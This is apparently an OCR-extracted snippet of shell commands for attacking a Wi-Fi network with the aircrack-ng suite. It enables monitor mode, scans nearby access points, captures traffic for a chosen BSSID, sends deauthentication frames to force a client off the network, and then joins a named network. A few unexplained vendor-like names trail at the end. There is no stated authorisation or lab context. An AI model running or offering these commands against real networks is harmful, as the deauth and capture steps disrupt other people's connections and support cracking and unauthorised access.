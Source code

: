 sudo airmon-ng
sudo airmon-ng start wlan0
sudo airmon-ng

sudo airodump-ng wlan0mon

sudo airodump-ng --bssid <BSSID> --channel <CHANNEL> --write capture wlan0mon
sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon

sudo iwconfig wlan0 essid "MV16044827"
sudo dhclient wlan0

ML141 
leaontek-ml
liteontechno 
xiaomiCommun
neterbit